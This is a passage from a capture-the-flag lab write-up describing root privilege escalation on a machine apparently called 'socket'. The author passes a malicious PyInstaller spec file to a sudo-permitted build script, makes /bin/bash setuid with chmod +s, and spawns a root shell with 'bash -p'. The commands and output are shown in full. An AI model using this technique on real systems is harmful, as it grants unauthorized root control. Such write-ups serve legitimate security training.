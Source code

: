 ## Exploitation

As you can see we run the **build-installer.sh** as root which means we can inject our own commands to it and have them run as root. I had to read this up but pyinstaller just literally executes the the file which I provided to it.  

So instead of giving a valid **spec** file I created little snippet that modifies **/bin/bash**

```python
import os
os.system("chmod +s /bin/bash")
```

Let's execute 

```bash
tkeller@socket:/tmp$ sudo /usr/local/sbin/build-installer.sh build my.spec
128 INFO: PyInstaller: 5.6.2
128 INFO: Python: 3.10.6
131 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
136 INFO: UPX is not available.
```

```bash
tkeller@socket:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 26 01:26 /bin/bash
```

## Root

```bash
tkeller@socket:/tmp$ bash -p
bash-5.1# whoami
root
bash-5.1# ls /root
cleanup  root.txt  snap
```